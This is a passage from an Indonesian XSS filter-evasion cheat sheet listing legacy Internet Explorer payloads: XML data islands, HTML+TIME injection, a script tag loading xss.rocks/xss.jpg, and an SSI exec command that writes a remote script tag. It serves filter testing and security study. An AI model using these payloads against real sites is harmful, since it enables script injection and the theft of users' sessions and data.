 (Terima kasih kepada nEUrOO untuk ini one)

### Pulau Data XML dengan Pengaburan CDATA

Serangan XSS ini hanya berfungsi di IE:

```html
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML>
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
```

### XML yang dihosting secara lokal dengan JavaScript tertanam yang dibuat menggunakan pulau data XML

Serangan ini hampir sama seperti di atas, tetapi sebaliknya merujuk ke file XML yang dihosting secara lokal (di server yang sama) yang akan menampung vektor XSS Anda. Anda dapat melihat hasilnya di sini:

```html
<XML SRC="xsstest.xml" ID=I></XML>
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
```

### HTML+TIME dalam XML

Serangan ini hanya berfungsi di IE dan ingat bahwa Anda harus berada di antara tag HTML dan BODY agar ini berfungsi:

```html
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML>
```

(Beginilah cara Grey Magic meretas Hotmail dan Yahoo!)

### Dengan asumsi Anda hanya dapat memasukkan beberapa karakter dan memfilter terhadap `.js`

Serangan ini memungkinkan Anda mengganti nama berkas JavaScript menjadi gambar sebagai vektor XSS:

```html
<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>
```

### SSI (Server Side Includes)

Ini mengharuskan SSI diinstal di server untuk menggunakan vektor XSS ini. Saya mungkin tidak perlu menyebutkan ini, tetapi jika Anda dapat menjalankan perintah di server, tidak diragukan lagi ada masalah yang jauh lebih serius:

```js
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->
```
